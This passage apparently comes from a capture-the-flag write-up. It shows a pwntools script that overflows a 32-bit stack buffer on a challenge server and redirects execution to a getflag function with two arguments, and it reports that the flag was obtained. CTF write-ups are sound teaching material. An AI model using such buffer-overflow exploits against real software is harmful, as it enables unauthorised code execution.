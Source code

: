 We adapted the script from `echo` so that besides the address of the function that had to be called we would also provide the 2 parameters.

```python
from pwn import *

context.binary = './challenge.elf'
context.log_level = 'debug'

r = remote('challenge.ctf.games', 31314)

response = r.recvline()
print(response)
response = r.recvline()
print(response)

getflag_address = 0x8049214
buffer_size = 0x28

payload = b'A' * buffer_size
payload += p32(getflag_address)
payload += b'B' * 4
payload += p32(0x23)
payload += p32(0x01)
print(payload)

r.sendline(payload)

r.interactive()
```

Executing the payload we got the flag.

<div style="text-align: center;">
    <img src="../images/FetchTheFlag2025/AdditionalInformationNeeded-3.png" alt="AdditionalInformationNeeded-3" style="max-width: 75%; height: auto;">
</div>
